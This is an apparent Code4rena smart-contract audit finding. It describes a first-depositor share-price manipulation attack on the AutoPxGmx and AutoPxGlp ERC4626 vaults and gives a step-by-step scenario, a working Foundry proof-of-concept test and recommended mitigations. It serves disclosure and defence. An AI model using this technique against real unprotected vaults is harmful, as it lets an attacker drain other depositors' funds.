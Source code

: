 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- upgraded by judge
- H-05

# [Underlying assets stealing in `AutoPxGmx` and `AutoPxGlp` via share price manipulation](https://github.com/code-423n4/2022-11-redactedcartel-findings/issues/275) 

# Lines of code

https://github.com/code-423n4/2022-11-redactedcartel/blob/03b71a8d395c02324cb9fdaf92401357da5b19d1/src/vaults/PirexERC4626.sol#L156-L165
https://github.com/code-423n4/2022-11-redactedcartel/blob/03b71a8d395c02324cb9fdaf92401357da5b19d1/src/vaults/PirexERC4626.sol#L167-L176


# Vulnerability details

## Impact
pxGMX and pxGLP tokens can be stolen from depositors in `AutoPxGmx` and `AutoPxGlp` vaults by manipulating the price of a share.
## Proof of Concept
ERC4626 vaults are subject to a share price manipulation attack that allows an attacker to steal underlying tokens from other depositors (this is a [known issue](https://github.com/transmissions11/solmate/issues/178) of Solmate's ERC4626 implementation). Consider this scenario (this is applicable to `AutoPxGmx` and `AutoPxGlp` vaults):
1. Alice is the first depositor of the `AutoPxGmx` vault;
1. Alice deposits 1 wei of pxGMX tokens;
1. in the `deposit` function ([PirexERC4626.sol#L60](https://github.com/code-423n4/2022-11-redactedcartel/blob/03b71a8d395c02324cb9fdaf92401357da5b19d1/src/vaults/PirexERC4626.sol#L60)), the amount of shares is calculated using the `previewDeposit` function:
    ```solidity
    function previewDeposit(uint256 assets)
        public
        view
        virtual
        returns (uint256)
    {
        return convertToShares(assets);
    }

    function convertToShares(uint256 assets)
        public
        view
        virtual
        returns (uint256)
    {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
    ```
1. since Alice is the first depositor (totalSupply is 0), she gets 1 share (1 wei);
1. Alice then *sends* 9999999999999999999 pxGMX tokens (10e18 - 1) to the vault;
1. the price of 1 share is 10 pxGMX tokens now: Alice is the only depositor in the vault, she's holding 1 wei of shares, and the balance of the pool is 10 pxGMX tokens;
1. Bob deposits 19 pxGMX tokens and gets only 1 share due to the rounding in the `convertToShares` function: `19e18 * 1 / 10e18 == 1`;
1. Alice redeems her share and gets a half of the deposited assets, 14.5 pxGMX tokens (less the withdrawal fee);
1. Bob redeems his share and gets only 14.5 pxGMX (less the withdrawal fee), instead of the 19 pxGMX he deposited.

```solidity
// test/AutoPxGmx.t.sol
function testSharePriceManipulation_AUDIT() external {
    address alice = address(0x31337);
    address bob = address(0x12345);
    vm.label(alice, "Alice");
    vm.label(bob, "Bob");

    // Resetting the withdrawal fee for cleaner amounts.
    autoPxGmx.setWithdrawalPenalty(0);

    vm.startPrank(address(pirexGmx));        
    pxGmx.mint(alice, 10e18);
    pxGmx.mint(bob, 19e18);
    vm.stopPrank();

    vm.startPrank(alice);
    pxGmx.approve(address(autoPxGmx), 1);
    // Alice deposits 1 wei of pxGMX and gets 1 wei of shares.
    autoPxGmx.deposit(1, alice);
    // Alice sends 10e18-1 of pxGMX and sets the price of 1 wei of shares to 10e18 pxGMX.
    pxGmx.transfer(address(autoPxGmx), 10e18-1);
    vm.stopPrank();

    vm.startPrank(bob);
    pxGmx.approve(address(autoPxGmx), 19e18);
    // Bob deposits 19e18 of pxGMX and gets 1 wei of shares due to rounding and the price manipulation.
    autoPxGmx.deposit(19e18, bob);
    vm.stopPrank();

    // Alice and Bob redeem their shares.           
    vm.prank(alice);
    autoPxGmx.redeem(1, alice, alice);
    vm.prank(bob);
    autoPxGmx.redeem(1, bob, bob);

    // Alice and Bob both got 14.5 pxGMX.
    // But Alice deposited 10 pxGMX and Bob deposited 19 pxGMX – thus, Alice stole pxGMX tokens from Bob.
    // With withdrawal fees enabled, Alice would've been penalized more than Bob
    // (14.065 pxGMX vs 14.935 pxGMX tokens withdrawn, respectively),
    // but Alice would've still gotten more pxGMX that she deposited.
    assertEq(pxGmx.balanceOf(alice), 14.5e18);
    assertEq(pxGmx.balanceOf(bob), 14.5e18);
}
```

## Tools Used
Manual review
## Recommended Mitigation Steps
Consider either of these options:
1. In the `deposit` function of `PirexERC4626`, consider requiring a reasonably high minimal amount of assets during first deposit. The amount needs to be high enough to mint many shares to reduce the rounding error and low enough to be affordable to users.
1. On the first deposit, consider minting a fixed and high amount of shares, irrespective of the deposited amount.
1. Consider seeding the pools during deployment. This needs to be done in the deployment transactions to avoiding front-running attacks. The amount needs to be high enough to reduce the rounding error.
1. Consider sending first 1000 wei of shares to the zero address. This will significantly increase the cost of the attack by forcing an attacker to pay 1000 times of the share price they want to set. For a well-intended user, 1000 wei of shares is a negligible amount that won't diminish their share significantly.